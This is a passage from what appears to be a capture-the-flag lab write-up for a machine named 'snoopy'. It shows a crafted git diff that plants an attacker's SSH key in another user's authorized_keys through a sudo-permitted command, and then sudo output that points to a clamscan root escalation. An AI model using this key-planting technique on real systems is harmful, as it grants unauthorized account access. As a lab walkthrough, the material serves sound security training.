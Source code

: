 Then, we can redirect the above to another file like `/tmp/diff`. Afterwards, we need to change the target file (the one below) to `sbrown/.ssh/authorized_keys` in order to write the key within it.

Here's the final `diff` file I used:

{% code overflow="wrap" %}
```
cbrown@snoopy:/home$ cat /tmp/diff
diff --git a/cbrown/.bash_history b/cbrown/.bash_history
deleted file mode 120000
index dc1dc0c..0000000
--- a/cbrown/.bash_history
+++ /dev/null
@@ -1 +0,0 @@
-/dev/null
\ No newline at end of file
diff --git a/sbrown/.ssh/authorized_keys b/sbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..8e881d1
--- /dev/null
+++ b/cbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa KEY kali@kali
```
{% endcode %}

Afterwards, just run the `sudo` command on the `/tmp/diff` file. This would put our public key within the `sbrown` directory since we are running the command as `sbrown`. Then, we can `ssh` in.

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Sudo Clamscan --> Root&#x20;

When checking `sudo` privileges again, I found that we can run `clamscan` as `root`.

```
sbrown@snoopy:~$ sudo -l
Matching Defaults entries for sbrown on snoopy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User sbrown may run the following commands on snoopy:
    (root) NOPASSWD: /usr/local/bin/clamscan
```
